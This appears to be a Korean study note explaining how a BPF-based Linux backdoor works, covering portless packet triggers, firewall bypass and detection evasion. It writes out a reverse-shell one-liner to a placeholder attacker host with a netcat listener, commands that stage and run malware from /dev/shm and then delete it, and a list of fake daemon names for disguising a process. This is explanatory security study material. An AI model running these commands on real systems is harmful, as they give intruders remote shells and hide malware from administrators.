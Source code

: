 # 🛠️ BPF (Berkeley Packet Filter)

> **BPF**는 유저 모드 프로그램이 네트워크 필터에 어태치하여 소켓을 통해 들어오는 데이터를 허용하거나 거부할 수 있게 허용해 주는 기술이다. 즉 실행 중인 프로그램이 사용 중인 네트워크 소켓에 패킷 필터링 룰을 등록할 수 있으며 이를 통해 데이터를 읽거나 알림을 받을 수 있다.

1992년에 개발되어 패킷 필터로 패킷을 분석하고 필터링하는데에 사용되는 in-kernel virtual machine으로 BSD에서 처음으로 도입하였다. 네트워크 분석 도구 (예: tcpdump, wireshark)는 대량의 패킷 중에서 관심 있는 패킷만 빠르게 추출해야 합니다. 모든 패킷을 사용자 공간으로 가져와 필터링하면 성능이 매우 나빠집니다.

따라서 커널레벨에서 먼저 필터링 하고 필요한 패킷만 유저 공간으로 전달하는 BPF가 등장하였다


## 🔑 BPF Backdoor

BPF는 커널 네트워크 스택의 초기단계 socket이전에 필터링이 가능하다. 따라서 포트를 리슨하지 않아도 패킷을 가로채는것이 가능하다

따라서
* 리스닝 포트 없음: 외부에 노출되는 포트 없음
* Fileless: 디스크에 흔적을 남기지않음
* 커널수준에서 특정 패킷만 수신
* RC4 암호화 통신
* iptable 규칙 조작으로 포트 리다이렉션
* 시스템 데몬이름으로 프로세스 위장

### 🔧 특징
* 설치 위치: 리눅스 시스템 (일반적으로 백그라운드 프로세스)
* 동작 방식: eBPF로 패킷 검사 → 특정 시그니처가 들어오면 쉘 실행
* 기능: 명령어 실행, 역방향 쉘, 포트리스닝 없이 명령 수신
* 접근 방법: 비정상적인 TCP/UDP 패킷 이용, 포트 열지 않음
* 탐지 난이도: 매우 어렵다. 대부분의 보안 솔루션으로 탐지 불가

### 🔥 핵심 차별점

* 방화벽 우회: 방화벽이 열려있지 않아도 내부로 접근 가능
* 로그 미기록: 커널 레벨에서 수신 → 시스템 로그에 남지 않음
* 포트리스: 리스닝 포트 없이도 명령 수신 (정적 분석으로도 탐지 어려움)

## Reverse Shell

공격자가 피해자의 컴퓨터로 접속하는것이 아닌 피해자의 컴퓨터가 공격자의 컴퓨터에 접속하여 쉘을 제공하는 방식

아웃바운드 인바운드 보안을 우회

```css
[피해자 PC] ➝ 접속 ➝ [공격자 PC]
             쉘을 열어줌
```
### 🧱 2. 전통적 공격과의 차이점

| 방식    | 공격자 역할      | 피해자 역할        | 방화벽 우회 |
| ----- | ----------- | ------------- | ------ |
| 바인드 쉘 | 연결 요청       | 서버처럼 대기(bind) | 어렵다    |
| 리버스 쉘 | 리스너(Listen) | 클라이언트처럼 연결    | 쉬움 ✔️  |


* **Example**
    
1. 공격자
```bash
nc -lvnp 4444
```

2. 피해자

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
# bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 ==> localhost
```

## Memory based FS

리눅스 시스템에서 
```bash
/dev/shm
```
경로는 메모리 기반의 파일 시스템으로 주로 임시데이터 저장이나 처리에 사용된다 -> 디스크에 기록되지않고 메모리상에서만 운영되기에 자주 악용된다

```bash
/bin/rm -f /dev/shm/kdmtmpflush; # 파일이 존재하는 경우 지운다 -> 초기화 느낌
/bin/cp [악성코드] /dev/shm/kdmtmpflush && # 악성코드 바이너리 복사
/bin/chmod 755 /dev/shm/kdmtmpflush && # 파일 실행권한 설정
/dev/shm/kdmtmpflush –init kdmtmpflush && # 악성코드 실행

/bin/rm -f /dev/shm/kdmtmpflush # 원본은 지우기
```

**❓ 왜 `/dev/shm` 인가?**

1. 🧠 메모리 기반이라 흔적이 디스크에 남지 않음
    * /dev/shm은 RAM 기반 임시 파일시스템 (tmpfs)입니다.
    * 파일을 여기에 복사하고 실행하면, 디스크 I/O 없이 메모리에서 직접 실행됩니다.
    * 실행 후 삭제하면 디스크 포렌식, 로그 기반 탐지에 흔적을 남기지 않음.
2. 🕵️ 디스크 감시 탐지 우회 
    * /dev/shm은 일반적으로 덜 감시되므로, 여기에 복사하여 실행하면 탐지 확률이 줄어듦.


## 🪖 Camouflage

정신히 있는 관리자라면 가끔씩 어떤 프로세스들이 돌아가고 있는지 확인을 하긴 할 것이다. 따라서 해커들은 그럴듯한 이름을 통해 프로세스를 숨기고자 한다
이는 `prctl()` 함수를 통해 할 수 있다

```cpp
char *self[] = {
    "/sbin/udevd -d",
    "/sbin/mingetty /dev/tty7",
    "/usr/sbin/console-kit-daemon --no-daemon",
    "hald-addon-acpi: listening on acpi kernel interface /proc/acpi/event",
    "dbus-daemon --system",
    "hald-runner",
    "pickup -l -t fifo -u",
    "avahi-daemon: chroot helper",
    "/sbin/auditd -n",
    "/usr/lib/systemd/systemd-journald"
};
```

| 위장 문자열                     | 실제 용도           | 왜 위장할까?                |
| -------------------------- | --------------- | ---------------------- |
| `/sbin/udevd -d`           | Udev 장치 관리자     | 항상 실행되므로 눈에 띄지 않음      |
| `/sbin/mingetty /dev/tty7` | 터미널 로그인 데몬      | tty 단말 관련, 익숙한 이름      |
| `console-kit-daemon`       | 로그인/세션 관리 데몬    | GUI 시스템에서 흔함           |
| `dbus-daemon --system`     | IPC 메시지 버스 데몬   | 항상 실행됨                 |
| `hald-runner`              | HAL 하드웨어 추상화 데몬 | 요즘은 사용 안되지만 남아 있을 수 있음 |
| `auditd -n`                | 보안 감사 데몬        | 권한 있는 데몬, 의심 안 받음      |
| `systemd-journald`         | 시스템 로그 기록       | 완전한 핵심 프로세스처럼 보임       |
